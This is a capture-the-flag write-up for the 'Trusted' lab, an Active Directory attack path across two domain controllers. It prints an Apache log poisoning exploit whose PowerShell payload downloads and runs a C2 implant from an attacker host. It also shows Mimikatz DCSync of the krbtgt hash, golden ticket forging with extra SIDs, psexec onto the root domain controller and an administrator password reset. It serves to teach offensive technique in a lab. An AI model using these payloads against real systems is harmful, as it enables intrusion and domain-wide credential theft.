# Introduction
This box presents a multi-stage Active Directory attack path across a trusted domain setup. Starting with an Apache log poisoning vulnerability for initial access, we go deeper into the environment by leveraging cross-domain trust. Through post-exploitation and enumeration, we discover a bidirectional trust between domains—allowing for a DCSync attack to extract the krbtgt hash and create a Golden Ticket, granting access to the root domain controller.

## NMAP Port scans
We start off our writeup with an NMAP scan targeting 2 IP Addresses, they include:
```bash
10.10.218.86
10.10.218.85
```
```bash
sudo nmap -sS -sV -A -p- --min-rate 2500 -iL hosts.txt -oA nmapScan --disable-arp-ping --source-port=53
```




## User Flag

### HTTP Enumeration
From the results, it is clear that these machines are both Domain Controllers, I’ll target the ‘labdc.trusted.vl’ DC first, by browsing to the site on Port 80 HTTP: 

The site showcases a default XAMPP webpage, we can perform directory brute-forcing using feroxbuster in an attempt to uncover any hidden directories that exist:
```bash
feroxbuster -u http://labdc.lab.trusted.vl -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -t 20
```
```bash
301      GET        9l       30w      350c http://labdc.lab.trusted.vl/dev => http://labdc.lab.trusted.vl/dev/
301      GET        9l       30w      357c http://labdc.lab.trusted.vl/dev/images => http://labdc.lab.trusted.vl/dev/images/
301      GET        9l       30w      354c http://labdc.lab.trusted.vl/dev/css => http://labdc.lab.trusted.vl/dev/css/
200      GET      612l     1583w    11331c http://labdc.lab.trusted.vl/dev/css/style.css
200      GET       31l      195w    17155c http://labdc.lab.trusted.vl/dev/images/logo.png
200      GET       35l      209w    17125c http://labdc.lab.trusted.vl/dev/images/meeting.jpg
200      GET       30l      162w    11333c http://labdc.lab.trusted.vl/dev/images/smile.jpg
200      GET       24l      156w    11896c http://labdc.lab.trusted.vl/dev/images/family-small.jpg
```
A directory is discovered under ‘/dev’, manually viewing this webpage presents us with a lawyer's website along with a suspicious parameter ‘?view=’:


### Apache Log Poisoning to C2 Session
We can exploit the discovered parameter through apache log poisoning, this was uncovered after manually viewing the source code of the index page through php filtering:
```bash
https://labdc.lab.trusted.vl/dev/index.html?view=php://filter/convert.base64-encode/resource=index.html
```
```bash
base64 -d source.b64 > index.html
```

The vulnerable area is the unsanitised usage of PHP’s include function. We can check for the existence of the access.log file to see if it’d be vulnerable to log poisioning:
```bash
https://labdc.lab.trusted.vl/dev/index.html?view=C:/xampp/apache/logs/access.log
```


After confirmation that the access.log file exists on the server, we can create a powershell payload to be executed, this code downloads a Sliver session payload, stores it in the users temp directory and proceeds to execute it:
```bash
$u="http://10.8.4.194:443/output.exe";$f="$env:TEMP\output.exe.exe";Invoke-WebRequest $u -OutFile $f;Start-Process $f
```
With our completed payload, we have to convert it into UTF-16LE and then base64 encode so it is in a readable format for powershell. Then we can finally send our payload as the user-agent to the website:
```bash
 curl -A "<?php system('powershell -e JAB1AD0AIgBoAHQAdABwADoALwAvADEAMAAuADgALgA0AC4AMQA5ADQAOgA0ADQAMwAvAG8AdQB0AHAAdQB0AC4AZQB4AGUAIgA7ACQAZgA9ACIAJABlAG4AdgA6AFQARQBNAFAAXABvAHUAdABwAHUAdAAuAGUAeABlAC4AZQB4AGUAIgA7AEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAZgA7AFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAkAGYACgA='); ?>" http://labdc.lab.trusted.vl/dev/index.html?view=me
 ```
 We can then execute the payload by visiting the access.log file:
 ```bash
 curl -X GET https://labdc.lab.trusted.vl/dev/index.html?view=C:/xampp/apache/logs/access.log --insecure
 ```

 Accessing the file automatically executes our powershell payload and we are granted a C2 Session:
 

 We can read the user.txt flag from the directory 'C:\users\Administrator\Desktop\user.txt':
 ```bash
 type C:\users\Administrator\Desktop\user.txt
 ```


## Root Flag

 ### LABDC.lab.trusted.vl Enumeration and Post-Exploitation
 We can then gather domain information using sliver’s armory implementation of sharphound:
 ```bash
 sharp-hound-4 -s -t 300 -- -c all,gpolocalgroup
 ```
 
 SharpHound didn’t yield any useful results, however we know from previous enumeration that lab.trusted.vl is a child domain of trusted.vl. Mimikatz can be used to enumerate the inbound and outbound trusts:
 ```bash
 mimikatz "privilege::debug" "\"lsadump::trust /patch"
 ```

From the mimikatz output, it is clear there is a bidirectional trust between the child and root domain, the domain SIDS are retrieved from the mimikatz output.
```bash
LAB.TRUSTED.VL (LAB / S-1-5-21-2241985869-2159962460-1278545866)
TRUSTED.VL (TRUSTED / S-1-5-21-3576695518-347000760-3731839591)
```

### Abusing Bidirectional Trust: DCSync to Golden Ticket
As there is a bidirectional trust, we can DCSync and grab the ‘krbtgt’ hash from the compromised 'labdc.lab.trusted.vl' machine. To later perform a golden ticket attack:
```bash
mimikatz "privilege::debug" "\"lsadump::dcsync /domain:lab.trusted.vl /user:LAB\krbtgt"
```

After successful retrieval of the krbtgt hash, we can combine the domain sids and the hash to create a golden ticket for the root domain ‘trusted.vl’:
```bash
impacket-ticketer -nthash c7a03c565c68c6fac5f8913fab576ebd -domain lab.trusted.vl -domain-sid "S-1-5-21-2241985869-2159962460-1278545866" -extra-sid "S-1-5-21-3576695518-347000760-3731839591-512" Administrator -extra-pac
```

With our golden ticket now created, we can set it as our kerberos ticket within the attacking OS:
```bash
export KRB55CNAME=Administrator.ccache
```
Then finally, psexec into the ‘trusteddc.trusted.vl’ domain controller using our golden ticket:
```bash
impacket-psexec 'lab.trusted.vl/Administrator@trusteddc.trusted.vl' -k -no-pass -target-ip 10.10.218.85
```


As we are now logged in as NT AUTHORITY\SYSTEM, we can read the root flag right? WRONG!. The flag is EFS encrypted, therefore, we must reset the Administrators password and RDP into the box to decrypt the flag:
```bash
net user Administrator password123456@
```
```bash
xfreerdp3 /u:Administrator /p:password123456@ /v:trusteddc.trusted.vl +clipboard
```

